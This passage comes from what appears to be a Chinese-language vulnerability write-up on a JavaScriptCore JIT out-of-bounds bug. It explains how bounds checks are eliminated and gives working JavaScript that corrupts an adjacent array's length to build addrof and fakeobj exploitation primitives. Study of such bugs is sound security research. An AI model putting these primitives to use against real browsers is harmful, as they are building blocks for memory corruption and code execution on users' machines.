 ```
}


```

通过`idx-0x7ffffffd` 使 idx=3，因为此时 JIT 认为 idx 恒为正数，减去 0x7ffffffd 并不会造成溢出，所以消除了 ArithAdd 的检查，所以从进入`idx < arr.length` 条件判断到越界写操作，一路的检查都被消除了，造成了 OOB 漏洞。

漏洞利用
----

### 构造 addrof 和 fakeobj 原语

根据 poc 可以越界改写后面浮点数数组的长度，构造一个可以越界读写的数组：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182537-87c854b4-469b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182537-87c854b4-469b-1.png)

布置三个数组，地址如下：

```
[+] arr: 0x00007fe4f209e4e8
[+] oobAddr: 0x00007fe4f209ed68
[+] objAddr: 0x00007fe4f209ede8

```

调试观察它们 butterfly 的布局：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182602-96c93672-469b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182602-96c93672-469b-1.png)

可以看到通过越界读写 arr[3]，可以将 oobArr 数组的 length 修改成 0x1337，之后通过 oobArr 可以再一次越界读写，通过修改 oobArr[4]，可以直接修改 objArr[0] 的内容，由于 oobArr 为浮点数数组，objArr 为对象数组，通过类型转化可以完成 addrof 和 fakeobj 原语：

```
let noCoW = 13.37;
let arr = [noCoW, 2.2, 3.3];
let oobArr = [noCoW, 2.2, 3.3];
let objArr = [{}, {}, {}];

function AddrOf(obj)
{
    objArr[0] = obj;
    return f2i(oobArr[4]);
}

function FakeObj(addr)
{
    addr = i2f(addr);
    oobArr[4] = addr;
    return objArr[0];
}


```

